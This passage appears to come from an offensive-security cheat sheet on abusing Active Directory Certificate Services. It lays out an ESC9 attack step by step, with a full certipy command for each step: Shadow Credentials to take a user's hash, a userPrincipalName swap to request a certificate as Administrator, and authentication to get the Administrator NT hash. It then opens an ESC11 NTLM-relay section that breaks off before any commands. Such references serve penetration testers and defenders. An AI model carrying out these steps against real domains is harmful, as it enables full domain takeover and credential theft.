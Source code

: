 **Scenario**

John@corp.local has **GenericWrite** over Jane@corp.local, and we want to compromise Administrator@corp.local.
Jane@corp.local is allowed to enroll in the certificate template ESC9 that specifies the **CT\_FLAG\_NO\_SECURITY\_EXTENSION** flag in the **msPKI-Enrollment-Flag** value.

- Obtain the hash of Jane with Shadow Credentials (using our GenericWrite)
    
    ```ps1
    certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
    ```
    
- Change the **userPrincipalName** of Jane to be Administrator. :warning: leave the `@corp.local` part
    
    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane -upn Administrator
    ```
    
- Request the vulnerable certificate template ESC9 from Jane's account.
    
    ```ps1
    certipy req -username jane@corp.local -hashes ... -ca corp-DC-CA -template ESC9
    # userPrincipalName in the certificate is Administrator 
    # the issued certificate contains no "object SID"
    ```
    
- Restore userPrincipalName of Jane to Jane@corp.local.
    
    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane@corp.local
    ```
    
- Authenticate with the certificate and receive the NT hash of the Administrator@corp.local user.
    
    ```ps1
    certipy auth -pfx administrator.pfx -domain corp.local
    # Add -domain <domain> to your command line since there is no domain specified in the certificate.
    ```
    

### ESC11 - Relaying NTLM to ICPR

> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

Requirements:

- [sploutchy/Certipy](https://github.com/sploutchy/Certipy) \- Certipy fork
- [sploutchy/impacket](https://github.com/sploutchy/impacket) \- Impacket fork

Exploitation:
